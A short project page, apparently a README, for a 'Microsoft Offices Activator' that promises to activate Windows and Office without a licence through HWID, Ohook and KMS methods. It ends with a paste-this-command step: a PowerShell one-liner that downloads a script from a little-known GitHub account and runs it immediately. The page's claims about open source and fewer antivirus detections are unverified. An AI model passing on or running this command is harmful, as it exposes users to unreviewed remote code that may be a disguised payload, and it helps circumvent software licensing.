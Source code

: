 # Microsoft Offices Activator (MOA)

A Windows and Office activator using HWID / Ohook / KMS38 / Online KMS activation methods, with a focus on open-source code and fewer antivirus detections
Features
HWID (Digital License) Method to Permanently Activate Windows
Ohook Method to Permanently Activate Office

KMS38 Method to Activate Windows/Server Till the Year 2038

Online KMS Method to Activate Windows/Server/Office For 180 Days (Lifetime With Renewal Task)

Advanced Activation Troubleshooting

$OEM$ Folders For Preactivation

Change Windows Edition

Check Windows/Office Activation Status

Available in All In One and Separate Files Versions

Fully Open Source and Base

# PowerShell

Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).

Copy and paste the code below and press enter

# irm https://raw.githubusercontent.com/0x3c62723e/MOA/main/git.ps1 | iex
